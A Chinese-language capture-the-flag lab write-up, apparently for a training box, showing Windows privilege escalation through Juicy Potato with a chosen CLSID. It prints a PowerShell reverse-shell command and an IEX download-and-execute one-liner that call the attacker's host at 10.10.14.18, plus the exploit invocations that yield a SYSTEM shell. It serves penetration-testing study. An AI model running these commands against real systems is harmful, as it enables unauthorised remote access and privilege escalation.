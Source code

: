 成功上传....

juicy-potato 就是利用 RottenPotato 漏洞修改 CLSID 值然后执行 BAT 程序提权....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOdGaEnMDrByuX1yDuhAQSbLicoykAsAEVwR5ic1w4QwsDjqk0ETPck3gqncyZ4a8nXvT0AxoJfe3JQ/640?wx_fmt=png)

执行发现了此台靶机的 CLSID 值后...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOdGaEnMDrByuX1yDuhAQSbRmbIgibmCGufFY8k9yrzTbZmDTJsgJhevntcPB4NLeZkJs9S99EUJ8A/640?wx_fmt=png)

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.18 -Port 8888
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOdGaEnMDrByuX1yDuhAQSbuKaJuibJZfeCtzpLI6eicl6vUPEpfPSDzz5lKLIscZt8UzuFGy1cvt0A/640?wx_fmt=png)

```
powershell "IEX (New-Object Net.WebClient).downloadString('http://10.10.14.18:8000/dayu.ps1')"
```

上传了 BAT，自己写的简单的上传 webshell 提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOdGaEnMDrByuX1yDuhAQSbh6o7MCGZB3zvAic0q6XXnhfeKe6jXeyRMy6zicRX07IdIR6Coyu1YuZw/640?wx_fmt=png)

```
.\dayu.exe -t * -p C:\users\Destitute\music\dayu.bat -l 4445
```

我这里先测试 4445 端口，发现是错误的 CLSID 值...10038

这里需要找到可利用的 CLSID 值，可参考 https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md 或者 http://ohpe.it/juicy-potato/CLSID / 都可以找到...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOdGaEnMDrByuX1yDuhAQSbQU8r8vLaeknNw9L5SNmFC1gcZI1JvE98WOvMml6n2CrIoicpbpZbEMw/640?wx_fmt=png)

可以看到，此 CLSID 是无权限的...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOdGaEnMDrByuX1yDuhAQSbuHUysRXHeIpORfUbRAvmBjIB2EmvGjVG3mTsQiaMbLPNSrdL5icsSvkA/640?wx_fmt=png)

只需要随意利用一个 CLSID 即可提权... 我随意用了一个...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOdGaEnMDrByuX1yDuhAQSbO85GYn9ZS1XKaobpWduvWKy26Jiax9E3aWGcndITp1JBxn4apiahicvUg/640?wx_fmt=png)

```
.\dayu.exe -t * -p C:\users\Destitute\music\dayu.bat -l 8889 -c '{8BC3F05E-D86B-11D0-A075-00C04FB68820}'
```

开启 NC，利用 dayu.ps1 的 shell 成功提权.... 

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOdGaEnMDrByuX1yDuhAQSbKR0f4VXlcVVU8znGDJTOFu0rIJrMc2ZqchDMicTib1BFshLD2QFFbeVw/640?wx_fmt=png)

成功查看到第二个 flag...

![](https://mmbiz.qpic.cn/mmbiz_png/TT8ic2JKBb6jlK434RibHzNljr956UE1SoMjawkXtRicWE16SX040OVmERla7ia6PpRZEAhV7jXcq41cMGaXRibHy1A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/8MwpenCNAibmYVEdEYmTrUwKKp2e3RyLasUur0sQZ4lviaKFOwwgKfcp4pvbVNrpHrPoVhVEZjJ3IV0MAxQtbEZg/640?wx_fmt=png)
